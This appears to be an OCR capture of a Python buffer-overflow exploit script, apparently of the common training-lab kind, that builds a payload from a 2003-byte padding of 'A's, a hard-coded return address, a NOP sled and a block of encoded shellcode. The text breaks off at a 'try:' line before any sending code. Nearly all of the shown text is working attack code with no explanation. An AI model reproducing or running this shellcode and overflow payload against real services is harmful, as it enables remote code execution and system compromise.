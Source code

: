  

 

#!/usr/bin/python3

 

import sys, socket

from time import sleep

 

overflow = (b\"\\xb8\\x5c\\x1e\\x35\\x96\\xd9\\xc6\\xd9\\x74\\x24\\xf4\\x5b\\x31\\xc9\\xb1\"

b\"\\x52\\x31\\x43\\x12\\x03\\x43\\x12\\x83\\x9f\\x1a\\xd7\\x63\\xe3\\xcb\\x95\"

b\"\\x8c\\x1b\\x0c\\xfa\\x05\\xfe\\x3d\\x3a\\x71\\x8b\\x6e\\x8a\\xf1\\xd9\\x82\"

b\"\\x61\\x57\\xc9\\x11\\x07\\x70\\xfe\\x92\\xa2\\xa6\\x31\\x22\\x9e\\x9b\\x50\"

b\"\\xa0\\xdd\\xcf\\xb2\\x99\\x2d\\x02\\xb3\\xde\\x50\\xef\\xe1\\xb7\\x1f\\x42\"

b\"\\x15\\xb3\\x6a\\x5f\\x9e\\x8f\\x7b\\xe7\\x43\\x47\\x7d\\xc6\\xd2\\xd3\\x24\"

b\"\\xc8\\xd5\\x30\\x5d\\x41\\xcd\\x55\\x58\\x1b\\x66\\xad\\x16\\x9a\\xae\\xff\"

b\"\\xd7\\x31\\x8f\\xcf\\x25\\x4b\\xc8\\xe8\\xd5\\x3e\\x20\\x0b\\x6b\\x39\\xf7\"

b\"\\x71\\xb7\\xcc\\xe3\\xd2\\x3c\\x76\\xcf\\xe3\\x91\\xe1\\x84\\xe8\\x5e\\x65\"

b\"\\xc2\\xec\\x61\\xaa\\x79\\x08\\xe9\\x4d\\xad\\x98\\xa9\\x69\\x69\\xc0\\x6a\"

b\"\\x13\\x28\\xac\\xdd\\x2c\\x2a\\x0f\\x81\\x88\\x21\\xa2\\xd6\\xa0\\x68\\xab\"

b\"\\x1b\\x89\\x92\\x2b\\x34\\x9a\\xe1\\x19\\x9b\\x30\\x6d\\x12\\x54\\x9f\\x6a\"

b\"\\x55\\x4f\\x67\\xe4\\xa8\\x70\\x98\\x2d\\x6f\\x24\\xc8\\x45\\x46\\x45\\x83\"

b\"\\x95\\x67\\x90\\x04\\xc5\\xc7\\x4b\\xe5\\xb5\\xa7\\x3b\\x8d\\xdf\\x27\\x63\"

b\"\\xad\\xe0\\xed\\x0c\\x44\\x1b\\x66\\xf3\\x31\\x27\\x31\\x9b\\x43\\x27\\xac\"

b\"\\x07\\xcd\\xc1\\xa4\\xa7\\x9b\\x5a\\x51\\x51\\x86\\x10\\xc0\\x9e\\x1c\\x5d\"

b\"\\xc2\\x15\\x93\\xa2\\x8d\\xdd\\xde\\xb0\\x7a\\x2e\\x95\\xea\\x2d\\x31\\x03\"

b\"\\x82\\xb2\\xa0\\xc8\\x52\\xbc\\xd8\\x46\\x05\\xe9\\x2f\\x9f\\xc3\\x07\\x09\"

b\"\\x09\\xf1\\xd5\\xcf\\x72\\xb1\\x01\\x2c\\x7c\\x38\\xc7\\x08\\x5a\\x2a\\x11\"

b\"\\x90\\xe6\\x1e\\xcd\\xc7\\xb0\\xc8\\xab\\xb1\\x72\\xa2\\x65\\x6d\\xdd\\x22\"

b\"\\xf3\\x5d\\xde\\x34\\xfc\\x8b\\xa8\\xd8\\x4d\\x62\\xed\\xe7\\x62\\xe2\\xf9\"

b\"\\x90\\x9e\\x92\\x06\\x4b\\x1b\\xb2\\xe4\\x59\\x56\\x5b\\xb1\\x08\\xdb\\x06\"

b\"\\x42\\xe7\\x18\\x3f\\xc1\\x0d\\xe1\\xc4\\xd9\\x64\\xe4\\x81\\x5d\\x95\\x94\"

b\"\\x9a\\x0b\\x99\\x0b\\x9a\\x19\")

 

shellcode = b\"A\" \* 2003 + b\"\\xaf\\x11\\x50\\x62\" + b\"\\x90\" \* 16 + overflow

 

try:
